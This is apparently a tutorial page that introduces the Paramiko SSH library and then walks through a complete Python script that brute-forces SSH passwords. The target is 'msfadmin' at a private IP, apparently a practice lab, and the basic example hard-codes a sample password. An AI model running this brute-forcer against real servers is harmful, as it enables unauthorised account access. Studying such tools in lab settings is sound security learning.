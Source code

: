 ```yaml
---
title: "Python SSH Bruteforcer"
description: 
excerpt: "Port Scanner written in Python"
date: 2022-11-03T19:41:26+02:00
lastmod: 2023-03-06T19:41:26+02:00
draft: false
weight: 100
images: []
categories: ""
tags: ""
contributors: ""
pinned: false
homepage: false
---
```


---

## What is Paramiko?

Paramiko is a Python implementation of SSH (Secure Shell) protocol which allows Python programs to establish secure connections to remote servers. Here's how you can install Paramiko and some basic usage instructions:

### Installation
You can install Paramiko using pip, the package installer for Python. To install the latest version of Paramiko, run the following command:


    pip install paramiko


### Basic Usage

First, you need to import the Paramiko library in your Python script:

    import paramiko


---

## Establish an connection

Let's uses the Paramiko library to establish an SSH connection to a remote server.

The first step is to import the Paramiko library in your Python script.

     import paramiko

### Define connection parameters

Next, define the connection parameters like IP address, username, and password of the remote server you want to connect to.

    ip = '192.168.198.136'
    username = 'ubuntu'
    password = 'pa$$w0rd'
    timeout = 5

In this example, we are using IP address 192.168.198.136 with ubuntu as the username and pa$$w0rd as the password. We are also setting a timeout value of 5 seconds.

### Set up the SSH client
Create an instance of the SSHClient class and set the missing_host_key_policy attribute to AutoAddPolicy. This will automatically add the remote server's SSH key to the local machine's list of known hosts.

    client_policy = paramiko.AutoAddPolicy()
    client = paramiko.SSHClient();
    client.set_missing_host_key_policy(client_policy)

### Connect to the remote server

Use the connect() method of the SSH client instance to establish an SSH connection with the remote server.

    client.connect(ip, username=username, password=password, timeout=timeout)

In this example, we are passing the IP address, username, password, and timeout value to the connect() method.

### Print the SSH client object
Finally, print the SSH client object to verify that the connection has been established successfully.

    print(client)

### Close the connection

After you are finished with the connection, you should close it to free up system resources.

    client.close()


## Bruteforce SSH

This is an example of a brute force attack using the Paramiko library to attempt to log in to an SSH server. The script creates a client object, defines a Brutes class that generates password guesses, and tries to connect to the SSH server using each password guess until the correct one is found.

Here are the steps to understand this script:

### Libraries


    import itertools as it
    import string
    from utils import timefunc
    import paramiko

This code imports the necessary libraries, including itertools, string, timefunc from the utils module, and paramiko.

### Define the create_client function


    def create_client():
        client = paramiko.SSHClient()
        client_policy = paramiko.AutoAddPolicy()
        client.set_missing_host_key_policy(client_policy)
        return client

This function creates an SSH client object using the paramiko library, sets the client's policy to auto-add any new host key, and returns the client object.

### Define the Brutes class


    class Brutes:
        def __init__(self, charset, length, ip):
            self.charset = charset
            self.length = length
            self.ip = ip
        
        @timefunc
        def crackit(self, username):
            client = create_client()
            for guess in self.guesses:
                try:
                    print(guess)
                    client.connect(self.ip, username=username, password=guess, timeout=0.5)
                    print('The password is {}'.format(guess))
                    return guess
                except paramiko.AuthenticationException as e:
                    print('{} is not it.'.format(guess)) 
                finally:
                    client.close()
        
        @property
        def guesses(self):
            for guess in it.product(self.charset, repeat=self.length):
                yield ''.join(guess)


This class takes in three arguments: the character set used to generate password guesses, the length of the password guesses, and the IP address of the target SSH server. The crackit method attempts to connect to the SSH server using each password guess generated by the guesses property until the correct password is found or all guesses have been exhausted. The guesses property generates all possible combinations of the characters in the character set for the given length.

### Define the main function

    def main():
        charset = 'aspeb'#'pqrstuvwxyzabcdefghijklmno'
        ip = '10.0.13.231'
        brute = Brutes(charset, 4, ip)
        password = brute.crackit(username='msfadmin')
        if password:
            print('Found {}'.format(password))

This function sets the character set, IP address, and length of the password guesses, creates a Brutes object, and attempts to crack the SSH password for the specified username. If the password is found, it is printed to the console.

### Run the code


    if __name__ == '__main__':
        main()



